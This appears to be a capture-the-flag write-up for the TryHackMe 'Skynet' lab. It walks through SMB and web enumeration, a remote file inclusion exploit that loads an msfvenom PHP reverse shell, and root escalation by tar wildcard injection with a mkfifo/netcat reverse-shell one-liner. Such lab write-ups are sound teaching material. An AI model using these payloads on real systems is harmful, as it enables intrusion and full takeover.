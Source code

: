```yaml
---
title: TryHackMe Skynet
date: 2024-12-30 0:0:0 -0500
categories: CTFs
tags: tryhackme
---
```



![](/assets/img/skynet/skynet.jpeg){: width=400 height=200 }


# Information Gathering


We are given:

> Deploy and compromise the vulnerable machine!

Additonally, we are given the target IP `10.10.13.83`. Our objectives are as follows:

1. Obtain Miles' email password,
2. Identify the hidden directory,
3. Recall the type of vulnerability wherein one includes a remote file for malicious purposes,
4. Obtain the user flag, and
5. Obtain the root flag.


# Enumeration
We run an nmap scan with `nmap -sS -T5 -sC -sV 10.10.13.83` and obtain the following
```bash
Nmap scan report for 10.10.13.83
Host is up (0.097s latency).
Not shown: 988 closed tcp ports (reset)
PORT      STATE    SERVICE      VERSION
22/tcp    open     ssh          OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
|   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
|_  256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
80/tcp    open     http         Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Skynet
|_http-server-header: Apache/2.4.18 (Ubuntu)
110/tcp   open     pop3         Dovecot pop3d
|_pop3-capabilities: CAPA PIPELINING UIDL AUTH-RESP-CODE SASL RESP-CODES TOP
139/tcp   open     netbios-ssn  Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp   open     imap         Dovecot imapd
|_imap-capabilities: IMAP4rev1 more SASL-IR post-login have IDLE capabilities listed 
LITERAL+ Pre-login OK LOGINDISABLEDA0001 ENABLE ID LOGIN-REFERRALS
445/tcp   open     netbios-ssn  Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
646/tcp   filtered ldp
1023/tcp  filtered netvenuechat
1042/tcp  filtered afrog
3580/tcp  filtered nati-svrloc
3905/tcp  filtered mupdate
24444/tcp filtered unknown
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
|_clock-skew: mean: 1h59m54s, deviation: 3h27m50s, median: -5s
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time:
|   date: 2024-12-30T17:58:47
|_  start_date: N/A
|_nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: skynet
|   NetBIOS computer name: SKYNET\x00
|   Domain name: \x00
|   FQDN: skynet
|_  System time: 2024-12-30T11:58:47-06:00

Nmap done: 1 IP address (1 host up) scanned in 24.43 seconds
```

We notice SAMBA running on port `445/TCP` and enumerate it using `nmap --script samba-enum-shares.nse -p 445 10.10.13.83`.
This reveals

```bash
Host script results:
| smb-enum-shares:
|   account_used: guest
|   \\10.10.13.83\IPC$:
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (skynet server (Samba, Ubuntu))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.13.83\anonymous:
|     Type: STYPE_DISKTREE
|     Comment: Skynet Anonymous Share
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\srv\samba
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.13.83\milesdyson:
|     Type: STYPE_DISKTREE
|     Comment: Miles Dyson Personal Share
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\milesdyson\share
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.10.13.83\print$:
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>
```
We notice that we have read and write access on `\\10.10.13.83\anonymous`. Moreover, 
it appears that Miles' personal files are accessible at `\\10.10.13.83\milesdyson`. However, this share is inaccessible without credentials.

On the `anonymous` share, we find a file `attention.txt` containing

```
A recent system malfunction has caused various passwords to be changed. All skynet
employees are required to change their password after seeing this.
-Miles Dyson
```

Additionally, we obtain some log files, which appear to be the history of the password resets mentioned in `attention.txt`.


Afterward, we move on to the web server at port `80/TCP` and fuzz for directories using

```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 
-u http://10.10.13.83/FUZZ -ic
```

This reveals the directory `/squirrelmail`, allowing us to login into Miles' email account. The combination
`MilesDyson:<MOSTRECENTPASSFROMLOGS>` works.

In Miles' inbox, we find the following message

![](/assets/img/skynet/email.png)

This password allows us to authenticate to Miles' SMB share, where we find the file `notes/important.txt`. The
file reads
```
1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```
This suggests that there is a directory named `/45kra24zxs28v3yd`. Navigating to `http://10.10.13.83/45kra24zxs28v3yd/` reveals Miles' personal page. The `notes/important.txt` file suggests that there is a login page available, so
we fuzz using 

```bash 
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 
-u http://10.10.13.83/45kra24zxs28v3yd/FUZZ -ic
```

Consequently, we find a login form at `/45kra24zxs28v3yd/administrator/`.


# Exploitation
After some research, we identify an exploit compatible with this CMS at [https://www.exploit-db.com/exploits/25971](https://www.exploit-db.com/exploits/25971).

To use this exploit, we first generate a php reverse shell with the command `msfvenom -p php/reverse_php LHOST=10.6.4.176 -o shell.php`. Then, we serve this file using `python3 -m http.server` and start a netcat listener with
`ncat -lvnp 4444`. Finally, we visit the URL 

```
http://10.10.13.83/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?
urlConfig=http://10.6.4.176:8000/shell.php
``` 
and receive a shell as `www-data`. We then obtain the user flag:

![](/assets/img/skynet/user.txt.png)

# Post-Exploitation
Checking for cron jobs, we execute the command `cat /etc/crontab`, which returns

```
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
*/1 *	* * *   root	/home/milesdyson/backups/backup.sh
...
```

The first job seems atypical. At `/home/milesdyson/backups/backups.sh`, we find

```bash
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

We use wildcard injection to exploit this cron job: first, we `cd /var/www/html`. Then, we run `echo "" > '--checkpoint=1`
and
```bash
echo "" > '--checkpoint-action=exec=bash evil.sh'
``` 

Lastly, we write a reverse shell `evil.sh` using

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 10.6.4.176 1234 > /tmp/f" 
> evil.sh
```

After setting up a netcat listener with the command `ncat -lvnp 1234`,
we receive a shell as `root`.

We then obtain the root flag:

![](/assets/img/skynet/root.txt.png)



